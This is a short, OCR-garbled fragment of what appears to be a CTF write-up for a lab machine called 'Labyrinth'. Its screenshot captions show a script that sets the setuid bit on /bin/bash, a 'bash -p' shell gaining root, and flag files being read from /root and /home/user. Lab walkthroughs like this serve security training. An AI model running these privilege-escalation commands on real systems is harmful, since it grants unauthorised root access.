 <img src="Labyrinth-Fast/media/image25.png"
style="width:2.25in;height:0.70833in"
alt="İ!/bin/bash chmod +5 /bin/bash " />

<img src="Labyrinth-Fast/media/image26.png"
style="width:5.95in;height:1.36667in"
alt="daemonä)labyrinth:/timers$ /bin/bash -p bash-4.4# id uid=l(daemon) gid=l(daemon) euid=ø(root) egid=ø(root) groups=ø(root),l(daemon) bash-4.4# bash bash : bash root whomai whomai: command not found whoami 1 " />

<img src="Labyrinth-Fast/media/image27.png"
style="width:4.45in;height:3.21667in"
alt="bash-4.4# cd /root bash-4.4# Is txt snap xampp_setup_job bash-4.4# cat da_king_flek.txt bash-4.4# cd /home bash-4.4# Is anonftp minotaur user bash-4.4# cd user bash-4.4# Is flag. txt bash-4.4# cat flag. txt usEr_f1aG} bash-4.4# " />
